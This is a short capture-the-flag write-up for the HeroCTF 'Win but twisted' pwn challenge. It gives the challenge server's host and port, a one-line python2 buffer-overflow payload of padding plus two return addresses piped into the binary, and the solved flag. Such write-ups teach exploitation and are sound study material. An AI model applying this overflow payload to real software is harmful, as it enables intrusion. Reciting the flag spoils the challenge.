 # Win but twisted

### Category

Pwn

### Description

Just a little warm up, but hey, without the twist it would've been too simple.
Get the flag from the server.

```
Host : pwn.heroctf.fr
Port : 9003
```

Format : **Hero{flag}**
Author : **iHuggsy**

### Write up

```py
(python2 -c "print('A'*32 +'\xc6\x91\x04\x08' + '\xfa\x91\x04\x08')" ; cat) | ./x
```

### Flag

Hero{Tw1sT3D_w1N_FuNcTi0N}